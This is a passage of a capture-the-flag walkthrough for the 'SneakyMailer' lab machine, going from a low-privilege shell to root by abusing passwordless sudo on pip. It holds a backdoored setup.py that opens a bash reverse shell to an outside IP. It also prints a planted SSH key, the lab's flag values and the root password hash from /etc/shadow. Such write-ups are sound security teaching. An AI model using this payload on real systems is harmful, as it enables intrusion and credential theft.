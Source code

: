 Here we got a shell as low:

```
$ low@sneakymailer:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
,111(bluetooth),119(pypi-pkg)

low@sneakymailer:~$ cat user.txt
70ac4f2e6be3aece2eed49ecb6f80d7d
```

## Privilege Escalation of Machine : from low to root

```
$ printf %s 'ssh-rsa <pubkey> cyfun@penarch' >> ~/.ssh/authorized_keys
$ ssh -i ~/.ssh/id_rsa low@10.10.10.197
```

Let's look for low hanging fruits:

```
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip
```

Let's create a very minimal backdoored package:

```
low@sneakymailer:~$ mktemp -d
/tmp/tmp.lIuPOXEbwZ
low@sneakymailer:~$ cd /tmp/tmp.lIuPOXEbwZ
low@sneakymailer:/tmp/tmp.lIuPOXEbwZ$ vim.tiny setup.py
low@sneakymailer:/tmp/tmp.lIuPOXEbwZ$ sudo /usr/bin/pip3 install 
```

`setup.py`

```python
import os
os.system("echo 'bash -i >&/dev/tcp/10.10.14.174/8080 0>&1' | /bin/bash")
```

When executed we retrieve the root shell:

```
root@sneakymailer:/tmp/pip-req-build-lp_bvi48# id
uid=0(root) gid=0(root) groups=0(root)
root@sneakymailer:/tmp/pip-req-build-lp_bvi48# cd
root@sneakymailer:~# cat root.txt
602b7d042c33e19fdf079cfef493eb60
root@sneakymailer:~# cat /etc/shadow | grep root
root:$6$jJW2Iy0Knfw7c6gr$/p2MAEhr7Fy4bMIT8szzgnSkL2kp8EaPKvGQ//cfcX0bMnazYHzNwWIsGaGwgceFyftI2Xihj0rrhUbfkrzhf.:18402:0:99999:7:::
```

[nmap]:https://nmap.org/
